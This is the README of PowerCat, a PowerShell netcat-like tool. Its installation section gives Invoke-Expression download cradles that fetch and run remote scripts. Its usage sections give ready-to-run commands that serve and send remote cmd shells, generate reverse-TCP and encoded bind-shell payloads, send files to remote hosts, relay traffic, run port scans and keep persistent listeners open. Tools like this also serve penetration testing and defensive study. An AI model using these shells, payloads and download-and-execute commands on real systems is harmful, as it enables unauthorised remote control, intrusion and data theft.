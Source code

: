 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded psm1/psd1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    Start-PowerCat # Listener
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
    -Port           # The port to listen on.                              [Int]
	-PipeName       # Name of pipe to listen on.                          [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
	
	Connect-PowerCat # Client
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
	-RemoteIp       # IPv4 address of host to connect to.                 [String]
    -Port           # The port to connect to.                             [Int]
	-PipeName       # Name of pipe to connect to.                         [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Recieve File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB:
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay tcp:9000
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -SendFile C:\pathto\inputfile -KeepAlive
```
